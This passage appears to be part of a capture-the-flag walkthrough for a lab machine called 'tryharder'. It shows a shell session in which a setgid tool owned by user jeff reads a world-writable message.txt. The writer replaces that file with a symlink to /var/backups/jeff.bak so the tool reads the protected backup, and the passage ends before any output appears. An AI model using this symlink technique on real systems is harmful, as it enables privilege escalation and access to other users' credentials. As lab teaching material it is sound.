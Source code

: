 backupmgr@tryharder:/opt/systools$ ./systool
./systool
Welcome to Jeffs System Administration tool.
This is still a very beta version and some things are not implemented yet.
Please Select an option from below.
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 
If we choose the second option (“restore your password”), it will display a message that seems to be taken from the message.txt file in the same directory, and that is writable by anybody:

Chose your option: 2
2


Jeff, you should login with your own account to view/change your password. I hope you haven't forgotten it.


1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 3
3
backupmgr@tryharder:/opt/systools$ cat message.txt
cat message.txt
Jeff, you should login with your own account to view/change your password. I hope you haven't forgotten it.
backupmgr@tryharder:/opt/systools$ ls -la message.txt
ls -la message.txt
-rwxrwxrwx 1 root root 108 May 24 13:19 message.txt
Now, what is interesting is that the binary is owned by jeff and the message.txt file is world writable, which means we can make a symbolic link to jeff.bak:

backupmgr@tryharder:/opt/systools$ ln -sf /var/backups/jeff.bak message.txt
ln -sf /var/backups/jeff.bak message.txt
backupmgr@tryharder:/opt/systools$ ls -la
ls -la
total 28
drwxrwxrwx 2 jeff      jeff       4096 Sep  6 18:31 .
drwxr-xr-x 4 root      root       4096 May 24 13:13 ..
lrwxrwxrwx 1 backupmgr backupmgr    21 Sep  6 18:31 message.txt -> /var/backups/jeff.bak
-rwxr-sr-x 1 jeff      pwman     17160 May 24 13:18 systool
backupmgr@tryharder:/opt/systools$ ./systool
./systool
Welcome to Jeffs System Administration tool.
This is still a very beta version and some things are not implemented yet.
Please Select an option from below.
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 2
2
